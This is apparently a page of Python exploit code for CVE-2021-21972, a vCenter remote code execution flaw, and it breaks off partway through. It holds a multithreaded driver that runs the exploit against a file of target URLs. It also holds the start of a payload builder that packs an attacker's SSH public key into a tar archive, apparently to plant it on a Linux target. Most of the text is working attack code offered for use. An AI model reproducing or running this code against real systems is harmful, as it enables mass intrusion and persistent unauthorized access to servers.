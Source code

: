 ```python


def multithreading(filename, pools=5):
    works = []
    with open(filename, "r") as f:
        for i in f:
            func_params = [i.rstrip("\n")]
            # func_params = [i] + [cmd]
            works.append((func_params, None))
    pool = threadpool.ThreadPool(pools)
    reqs = threadpool.makeRequests(CVE_2021_21972, works)
    [pool.putRequest(req) for req in reqs]
    pool.wait()


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("-u",
                        "--url",
                        help="Target URL; Example:http://ip:port")
    parser.add_argument("-f",
                        "--file",
                        help="Url File; Example:url.txt")
    # parser.add_argument("-c", "--cmd", help="Commands to be executed; ")
    args = parser.parse_args()
    url = args.url
    # cmd = args.cmd
    file_path = args.file
    if url != None and file_path ==None:
        CVE_2021_21972(url)
    elif url == None and file_path != None:
        multithreading(file_path, 10)  # 默认15线程


if __name__ == "__main__":
    main()
```





## EXP

>https://blog.csdn.net/weixin_43650289/article/details/114055417

```python
import tarfile
import os
from io import BytesIO
import requests

proxies = {
  "http": "http://127.0.0.1:8080",
  "https": "http://127.0.0.1:8080",
}
def return_zip():
    with tarfile.open("test.tar", 'w') as tar:
        payload = BytesIO()
        id_rsa_pub = 'ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAwgGuwNdSGHKvzHsHt7QImwwJ08Wa/+gHXOt+VwZTD23rLwCGVeYmfKObDY0uFfe2O4jr+sPamgA8As4LwdqtkadBPR+EzZB+PlS66RcVnUnDU4UdMhQjhyj/uv3pdtugugJpB9xaLdrUWwGoOLYA/djxD5hmojGdoYydBezsNhj2xXRyaoq3AZVqh1YLlhpwKnzhodk12a7/7EU+6Zj/ee5jktEwkBsVsDLTTWPpSnzK7r+kAHkbYx8fvO3Fk+9jlwadgbmhHJrpPr8gLEhwvrEnPcK1/j+QXvVkgy2cuYxl9GCUPv2wgZCN50f3wQlaJiektm2S9WkN5dLDdX+X4w=='
        # 针对Linux有效的方式
```